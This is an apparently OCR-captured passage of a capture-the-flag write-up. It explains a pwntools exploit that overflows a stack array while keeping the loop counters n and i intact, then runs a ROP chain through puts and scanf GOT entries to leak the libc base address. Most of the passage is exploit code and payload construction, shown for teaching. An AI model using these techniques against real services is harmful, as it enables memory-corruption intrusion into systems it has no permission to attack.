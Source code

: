 ```python
log.info('n: {n}'.format(n = n))

p.sendlineafter(b': ',str(n).encode())
for i in payload: p.sendlineafter(b': ',str(i).encode())
p.recvuntil(b'Average')
p.recvline()

_ = p.recv(6)
libc.address = u64(_ + b'\0\0') - libc.sym.puts
log.info('libc.address: {x}'.format(x = hex(libc.address)))
```

The array `rop` should look familiar if you've ever done a basic two pass ROP chain.  Basically, leak the location of libc `puts` by having `puts` _puts_ itself out there, then loop back to `main` for a second pass.

The payload is a bit tricker.  We have to preserve `local_28` (`n`) and `local_10` (`i`).

Start with filling memory (the array) from the begging of the array `local_a8` to the start of `local_28`, i.e. `((0xa8 - 0x28) // 8) * [0xAAAA]`.

Next set `local_28` (`n`) _back_ to the total length of the payload (remember this payload will be sent after we answer the prompt `n: `, we need to keep that set correctly).  The total length of the payload is the distance to the return address + the length of our ROP chain.

`local_20` and `local_18` get set each time in the loop, so no worries if you overwrite these.

Next up is `local_10` (`i`), well at this point in the payload the length of the payload is `i`, so just set it.

Lastly, filler, until the end of the stack frame (probably only the preserved base pointer).

Finally, our ROP chain.

The next line checks our payload will pass the input check in the binary.  Then we submit the length of our array and the array contents.  On return our ROP chain will run and leak the location of libc.

```python
lld = binary.search(b'%lld').__next__()
pop_rsi_r15 = binary.search(asm('pop rsi; pop r15; ret')).__next__()

rop = [
    pop_rdi,
    lld,
    pop_rsi_r15,
    binary.got.puts,
    0xAAAA,
    binary.plt.__isoc99_scanf,
    pop_rdi,
    lld,
    pop_rsi_r15,
    binary.bss() + 0x100,
    0xBBBB,
    binary.plt.__isoc99_scanf,
    pop_rdi+1,
    pop_rdi,
    binary.bss() + 0x100,
    binary.plt.puts
]

payload  = []
payload += ((0xa8 - 0x28) // 8) * [0xAAAA]
payload += [(0xa8 // 8) + len(rop)]
payload += 2 * [0xBBBB]
payload += [len(payload)]
payload += ((0xa8 // 8) - len(payload)) * [0xCCCC]
payload += rop
```